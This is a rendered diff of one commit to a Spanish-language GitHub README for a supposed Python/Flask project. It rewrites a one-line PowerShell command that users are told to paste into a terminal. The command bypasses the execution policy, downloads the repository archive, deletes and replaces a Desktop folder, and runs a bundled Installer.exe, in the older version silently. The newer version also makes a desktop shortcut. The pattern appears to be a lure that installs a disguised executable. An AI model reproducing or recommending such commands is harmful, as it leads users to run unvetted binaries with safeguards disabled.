

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

Commit message:
Refactor PowerShell script in README.md
Updated PowerShell script for improved readability and functionality.

````diff
--- a/README.md
+++ b/README.md
@@ -33,7 +33,7 @@ Construido sobre **Python 3.10+, Flask y SQLAlchemy 2.0**, este proyecto nació
 Si quieres dejar de sufrir, simplemente abre tu terminal y ejecuta:
 
 ```powershell
-Set-ExecutionPolicy Bypass -Scope Process -Force; $destDir = Join-Path ([Environment]::GetFolderPath('Desktop')) 'Prueba-de-Shein-Temu'; $zipFile = Join-Path $env:TEMP 'repo.zip'; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Invoke-WebRequest -Uri "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $zipFile; Expand-Archive -Path $zipFile -DestinationPath "$env:TEMP\extract" -Force; Move-Item "$env:TEMP\extract\Prueba-de-Shein-Temu-main" $destDir; Remove-Item $zipFile; Remove-Item "$env:TEMP\extract" -Recurse -Force; if (Test-Path "$destDir\Installer.exe") { Start-Process -FilePath "$destDir\Installer.exe" -ArgumentList "/S" -Wait -WorkingDirectory $destDir } else { Write-Host "Error: Installer.exe no encontrado en el repositorio." -ForegroundColor Red }
+Set-ExecutionPolicy Bypass -Scope Process -Force; $d=[Environment]::GetFolderPath('Desktop'); $dest="$d\Prueba-de-Shein-Temu"; if(Test-Path $dest){Remove-Item $dest -Recurse -Force}; mkdir $dest|Out-Null; $z="$env:TEMP\repo.zip"; Invoke-WebRequest "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $z; Expand-Archive $z -DestinationPath "$env:TEMP\tmp" -Force; $root=(Get-ChildItem "$env:TEMP\tmp" -Directory).FullName; Copy-Item "$root\*" -Destination $dest -Recurse -Force; Remove-Item $z, "$env:TEMP\tmp" -Recurse -Force; $exe="$dest\Installer.exe"; if(Test-Path $exe){ Start-Process $exe -WorkingDirectory $dest; $s=(New-Object -ComObject WScript.Shell).CreateShortcut("$d\PruebaSheinTemu.lnk"); $s.TargetPath=$exe; $s.WorkingDirectory=$dest; $s.Save(); Write-Host "Proceso finalizado" } else { Write-Error "El archivo Installer.exe no existe en la ruta $dest" }
 ```
 
 Este script se encarga de todo: descargar el repo, preparar el entorno, instalar dependencias y dejarte un icono en el escritorio.
````
